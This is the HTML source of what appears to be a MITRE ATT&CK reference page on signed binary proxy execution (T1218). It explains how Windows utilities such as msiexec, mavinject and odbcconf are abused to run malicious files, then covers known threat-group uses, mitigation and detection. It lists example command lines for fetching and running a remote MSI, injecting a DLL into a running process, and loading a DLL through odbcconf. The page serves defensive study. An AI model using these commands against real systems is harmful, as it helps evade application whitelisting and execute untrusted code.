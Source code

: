 <div class="container-fluid">
 <h1>
  Signed Binary Proxy Execution
 </h1>
 <div class="row">
  <div class="col-md-8 description-body">
   <p>
    Binaries signed with trusted digital certificates can execute on Windows systems protected by digital signature validation. Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files. This behavior may be abused by adversaries to execute malicious files that could bypass application whitelisting and signature validation on systems. This technique accounts for proxy execution methods that are not already accounted for within the existing techniques.
   </p>
   <h3>
    Msiexec.exe
   </h3>
   <p>
    Msiexec.exe is the command-line Windows utility for the Windows Installer. Adversaries may use msiexec.exe to launch malicious MSI files for code execution. An adversary may use it to launch local or network accessible MSI files.
    <span class="scite-citeref-number" data-reference="LOLBAS Msiexec" id="scite-ref-1-a">
     <sup>
      <a aria-describedby="qtip-0" data-hasqtip="0" href="https://lolbas-project.github.io/lolbas/Binaries/Msiexec/" target="_blank">
       [1]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="Rancor Unit42 June 2018" id="scite-ref-2-a">
     <sup>
      <a aria-describedby="qtip-1" data-hasqtip="1" href="https://researchcenter.paloaltonetworks.com/2018/06/unit42-rancor-targeted-attacks-south-east-asia-using-plaintee-ddkong-malware-families/" target="_blank">
       [2]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="TrendMicro Msiexec Feb 2018" id="scite-ref-3-a">
     <sup>
      <a aria-describedby="qtip-2" data-hasqtip="2" href="https://blog.trendmicro.com/trendlabs-security-intelligence/attack-using-windows-installer-msiexec-exe-leads-lokibot/" target="_blank">
       [3]
      </a>
     </sup>
    </span>
    Msiexec.exe may also be used to execute DLLs.
    <span class="scite-citeref-number" data-reference="LOLBAS Msiexec" id="scite-ref-1-a">
     <sup>
      <a aria-describedby="qtip-0" data-hasqtip="0" href="https://lolbas-project.github.io/lolbas/Binaries/Msiexec/" target="_blank">
       [1]
      </a>
     </sup>
    </span>
   </p>
   <ul>
    <li>
     <code>
      msiexec.exe /q /i "C:\path\to\file.msi"
     </code>
    </li>
    <li>
     <code>
      msiexec.exe /q /i http[:]//site[.]com/file.msi
     </code>
    </li>
    <li>
     <code>
      msiexec.exe /y "C:\path\to\file.dll"
     </code>
    </li>
   </ul>
   <h3>
    Mavinject.exe
   </h3>
   <p>
    Mavinject.exe is a Windows utility that allows for code execution. Mavinject can be used to input a DLL into a running process.
    <span class="scite-citeref-number" data-reference="Twitter gN3mes1s Status Update MavInject32" id="scite-ref-4-a">
     <sup>
      <a aria-describedby="qtip-3" data-hasqtip="3" href="https://twitter.com/gn3mes1s/status/941315826107510784" target="_blank">
       [4]
      </a>
     </sup>
    </span>
   </p>
   <ul>
    <li>
     <code>
      "C:\Program Files\Common Files\microsoft shared\ClickToRun\MavInject32.exe" &lt;PID&gt; /INJECTRUNNING &lt;PATH DLL&gt;
     </code>
    </li>
    <li>
     <code>
      C:\Windows\system32\mavinject.exe &lt;PID&gt; /INJECTRUNNING &lt;PATH DLL&gt;
     </code>
    </li>
   </ul>
   <h3>
    SyncAppvPublishingServer.exe
   </h3>
   <p>
    SyncAppvPublishingServer.exe can be used to run PowerShell scripts without executing powershell.exe.
    <span class="scite-citeref-number" data-reference="Twitter monoxgas Status Update SyncAppvPublishingServer" id="scite-ref-5-a">
     <sup>
      <a aria-describedby="qtip-4" data-hasqtip="4" href="https://twitter.com/monoxgas/status/895045566090010624" target="_blank">
       [5]
      </a>
     </sup>
    </span>
   </p>
   <h3>
    Odbcconf.exe
   </h3>
   <p>
    Odbcconf.exe is a Windows utility that allows you to configure Open Database Connectivity (ODBC) drivers and data source names.
    <span class="scite-citeref-number" data-reference="Microsoft odbcconf.exe" id="scite-ref-6-a">
     <sup>
      <a aria-describedby="qtip-5" data-hasqtip="5" href="https://docs.microsoft.com/en-us/sql/odbc/odbcconf-exe?view=sql-server-2017" target="_blank">
       [6]
      </a>
     </sup>
    </span>
    The utility can be misused to execute functionality equivalent to
    <a href="https://attack.mitre.org/techniques/T1117">
     Regsvr32
    </a>
    with the REGSVR option to execute a DLL.
    <span class="scite-citeref-number" data-reference="LOLBAS Odbcconf" id="scite-ref-7-a">
     <sup>
      <a aria-describedby="qtip-6" data-hasqtip="6" href="https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/" target="_blank">
       [7]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="TrendMicro Squiblydoo Aug 2017" id="scite-ref-8-a">
     <sup>
      <a aria-describedby="qtip-7" data-hasqtip="7" href="https://blog.trendmicro.com/trendlabs-security-intelligence/backdoor-carrying-emails-set-sights-on-russian-speaking-businesses/" target="_blank">
       [8]
      </a>
     </sup>
    </span>
    <span class="scite-citeref-number" data-reference="TrendMicro Cobalt Group Nov 2017" id="scite-ref-9-a">
     <sup>
      <a aria-describedby="qtip-8" data-hasqtip="8" href="https://blog.trendmicro.com/trendlabs-security-intelligence/cobalt-spam-runs-use-macros-cve-2017-8759-exploit/" target="_blank">
       [9]
      </a>
     </sup>
    </span>
   </p>
   <ul>
    <li>
     <code>
      odbcconf.exe /S /A {REGSVR "C:\Users\Public\file.dll"}
     </code>
    </li>
   </ul>
   <p>
    Several other binaries exist that may be used to perform similar behavior.
    <span class="scite-citeref-number" data-reference="GitHub Ultimate AppLocker Bypass List" id="scite-ref-10-a">
     <sup>
      <a aria-describedby="qtip-9" data-hasqtip="9" href="https://github.com/api0cradle/UltimateAppLockerByPassList" target="_blank">
       [10]
      </a>
     </sup>
    </span>
   </p>
  </div>
  <div class="col-md-4">
   <div class="card">
    <div class="card-body">
     <div class="card-data">
      <span class="h5 card-title">
       ID
      </span>
      : T1218
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Tactic
      </span>
      : Defense Evasion, Execution
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Platform:
      </span>
      Windows
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Permissions Required:
      </span>
      User
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Data Sources:
      </span>
      Process monitoring, Process command-line parameters
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Supports Remote:
      </span>
      No
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Defense Bypassed:
      </span>
      Application whitelisting, Digital Certificate Validation
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
      </span>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Contributors:
      </span>
      Nishan Maharjan, @loki248; Hans Christoffer Gaardløs; Praetorian
      <br/>
      <br/>
     </div>
     <div class="card-data">
      <span class="h5 card-title">
       Version
      </span>
      : 2.0
     </div>
    </div>
   </div>
  </div>
 </div>
 <h2 class="pt-3" id="examples">
  Examples
 </h2>
 <table class="table table-bordered table-light mt-2">
  <thead>
   <tr>
    <th scope="col">
     Name
    </th>
    <th scope="col">
     Description
    </th>
   </tr>
  </thead>
  <tbody class="bg-white">
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0080">
      Cobalt Group
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0080">
       Cobalt Group
      </a>
      has used
      <code>
       odbcconf
      </code>
      to proxy the execution of malicious DLL files.
      <span class="scite-citeref-number" data-reference="TrendMicro Cobalt Group Nov 2017" id="scite-ref-9-a" onclick="scrollToRef('scite-9')">
       <sup>
        <a aria-describedby="qtip-8" data-hasqtip="8" href="https://blog.trendmicro.com/trendlabs-security-intelligence/cobalt-spam-runs-use-macros-cve-2017-8759-exploit/" target="_blank">
         [9]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/software/S0038">
      Duqu
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/software/S0038">
       Duqu
      </a>
      has used
      <code>
       msiexec
      </code>
      to execute malicious Windows Installer packages. Additionally, a PROPERTY=VALUE pair containing a 56-bit encryption key has been used to decrypt the main payload from the installer packages.
      <span class="scite-citeref-number" data-reference="Kaspersky Duqu 2.0" id="scite-ref-11-a" onclick="scrollToRef('scite-11')">
       <sup>
        <a aria-describedby="qtip-10" data-hasqtip="10" href="https://securelist.com/files/2015/06/The_Mystery_of_Duqu_2_0_a_sophisticated_cyberespionage_actor_returns.pdf" target="_blank">
         [11]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
   <tr>
    <td>
     <a href="https://attack.mitre.org/groups/G0075">
      Rancor
     </a>
    </td>
    <td>
     <p>
      <a href="https://attack.mitre.org/groups/G0075">
       Rancor
      </a>
      has used
      <code>
       msiexec
      </code>
      to download and execute malicious installer files over HTTP.
      <span class="scite-citeref-number" data-reference="Rancor Unit42 June 2018" id="scite-ref-2-a" onclick="scrollToRef('scite-2')">
       <sup>
        <a aria-describedby="qtip-1" data-hasqtip="1" href="https://researchcenter.paloaltonetworks.com/2018/06/unit42-rancor-targeted-attacks-south-east-asia-using-plaintee-ddkong-malware-families/" target="_blank">
         [2]
        </a>
       </sup>
      </span>
     </p>
    </td>
   </tr>
  </tbody>
 </table>
 <h2 class="pt-3" id="mitigation">
  Mitigation
 </h2>
 <p>
  Certain signed binaries that can be used to execute other programs may not be necessary within a given environment. Use application whitelisting configured to block execution of these binaries if they are not required for a given system or network to prevent potential misuse by adversaries. If these binaries are required for use, then restrict execution of them to privileged accounts or groups that need to use them to lessen the opportunities for malicious use.
 </p>
 <h2 class="pt-3" id="detection">
  Detection
 </h2>
 <p>
  Monitor processes and command-line parameters for signed binaries that may be used to proxy execution of malicious files. Legitimate programs used in suspicious ways, like msiexec.exe downloading an MSI file from the internet, may be indicative of an intrusion. Correlate activity with other suspicious behavior to reduce false positives that may be due to normal benign use by users and administrators.
 </p>
 <h2 class="pt-3" id="references">
  References
 </h2>
 <div class="row">
  <div class="col">
   <ol>
    <li>
     <span class="scite-citation" id="scite-1">
      <span class="scite-citation-text">
       <a class="external text" href="https://lolbas-project.github.io/lolbas/Binaries/Msiexec/" name="scite-1" rel="nofollow" target="_blank">
        LOLBAS. (n.d.). Msiexec.exe. Retrieved April 18, 2019.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-2">
      <span class="scite-citation-text">
       <a class="external text" href="https://researchcenter.paloaltonetworks.com/2018/06/unit42-rancor-targeted-attacks-south-east-asia-using-plaintee-ddkong-malware-families/" name="scite-2" rel="nofollow" target="_blank">
        Ash, B., et al. (2018, June 26). RANCOR: Targeted Attacks in South East Asia Using PLAINTEE and DDKONG Malware Families. Retrieved July 2, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-3">
      <span class="scite-citation-text">
       <a class="external text" href="https://blog.trendmicro.com/trendlabs-security-intelligence/attack-using-windows-installer-msiexec-exe-leads-lokibot/" name="scite-3" rel="nofollow" target="_blank">
        Co, M. and Sison, G. (2018, February 8). Attack Using Windows Installer msiexec.exe leads to LokiBot. Retrieved April 18, 2019.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-4">
      <span class="scite-citation-text">
       <a class="external text" href="https://twitter.com/gn3mes1s/status/941315826107510784" name="scite-4" rel="nofollow" target="_blank">
        Giuseppe. (2017, December 14). gN3mes1s Status Update. Retrieved April 10, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-5">
      <span class="scite-citation-text">
       <a class="external text" href="https://twitter.com/monoxgas/status/895045566090010624" name="scite-5" rel="nofollow" target="_blank">
        Landers, N. (2017, August 8). monoxgas Status Update. Retrieved April 10, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-6">
      <span class="scite-citation-text">
       <a class="external text" href="https://docs.microsoft.com/en-us/sql/odbc/odbcconf-exe?view=sql-server-2017" name="scite-6" rel="nofollow" target="_blank">
        Microsoft. (2017, January 18). ODBCCONF.EXE. Retrieved March 7, 2019.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
  <div class="col">
   <ol start="7.5">
    <li>
     <span class="scite-citation" id="scite-7">
      <span class="scite-citation-text">
       <a class="external text" href="https://lolbas-project.github.io/lolbas/Binaries/Odbcconf/" name="scite-7" rel="nofollow" target="_blank">
        LOLBAS. (n.d.). Odbcconf.exe. Retrieved March 7, 2019.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-8">
      <span class="scite-citation-text">
       <a class="external text" href="https://blog.trendmicro.com/trendlabs-security-intelligence/backdoor-carrying-emails-set-sights-on-russian-speaking-businesses/" name="scite-8" rel="nofollow" target="_blank">
        Bermejo, L., Giagone, R., Wu, R., and Yarochkin, F. (2017, August 7). Backdoor-carrying Emails Set Sights on Russian-speaking Businesses. Retrieved March 7, 2019.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-9">
      <span class="scite-citation-text">
       <a class="external text" href="https://blog.trendmicro.com/trendlabs-security-intelligence/cobalt-spam-runs-use-macros-cve-2017-8759-exploit/" name="scite-9" rel="nofollow" target="_blank">
        Giagone, R., Bermejo, L., and Yarochkin, F. (2017, November 20). Cobalt Strikes Again: Spam Runs Use Macros and CVE-2017-8759 Exploit Against Russian Banks. Retrieved March 7, 2019.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-10">
      <span class="scite-citation-text">
       <a class="external text" href="https://github.com/api0cradle/UltimateAppLockerByPassList" name="scite-10" rel="nofollow" target="_blank">
        Moe, O. (2018, March 1). Ultimate AppLocker Bypass List. Retrieved April 10, 2018.
       </a>
      </span>
     </span>
    </li>
    <li>
     <span class="scite-citation" id="scite-11">
      <span class="scite-citation-text">
       <a class="external text" href="https://securelist.com/files/2015/06/The_Mystery_of_Duqu_2_0_a_sophisticated_cyberespionage_actor_returns.pdf" name="scite-11" rel="nofollow" target="_blank">
        Kaspersky Lab. (2015, June 11). The Duqu 2.0. Retrieved April 21, 2017.
       </a>
      </span>
     </span>
    </li>
   </ol>
  </div>
 </div>
</div>
